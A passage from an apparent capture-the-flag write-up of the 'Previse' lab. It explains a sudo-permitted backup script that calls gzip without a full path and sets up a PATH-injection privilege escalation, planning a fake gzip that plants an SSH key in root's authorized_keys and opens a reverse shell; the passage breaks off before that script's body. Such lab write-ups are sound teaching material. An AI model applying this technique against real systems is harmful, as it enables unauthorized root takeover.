 m4lwhere can run `sudo` on a script, `access_backup.sh`:



    m4lwhere@previse:~$ sudo -l
    [sudo] password for m4lwhere: 
    User m4lwhere may run the following commands on previse:
        (root) /opt/scripts/access_backup.sh



There's an important line missing from that output where `sudo` has been
misconfigured to allow the next exploit. I'll dig into that in [Beyond
Root](#sudo-default-configs).

The script is backing up logs to `/var/backups`:



    #!/bin/bash

    # We always make sure to store logs, we take security SERIOUSLY here

    # I know I shouldnt run this as root but I cant figure it out programmatically on my account
    # This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

    gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
    gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz



The comment says they knows they shouldn't be running this as root, but
that they need to fix the permissions later. That's a directory that is
owned by and writable by root, which is why m4lwhere needs `sudo` to run
it:



    m4lwhere@previse:~$ ls -ld /var/backups/
    drwxr-xr-x 2 root root 4096 Aug 16 07:42 /var/backups/



### Path Injection

The vulnerability in this script is that `gzip` is called without a
complete path. In `/dev/shm`, I'll create a simple script called `gzip`.
There are many things I could do, including just calling `bash`, though
I had some issues getting that to work. I'll have it write my public key
into root's `authorized_keys` file and spawn a reverse shell:



    #!/bin/bash
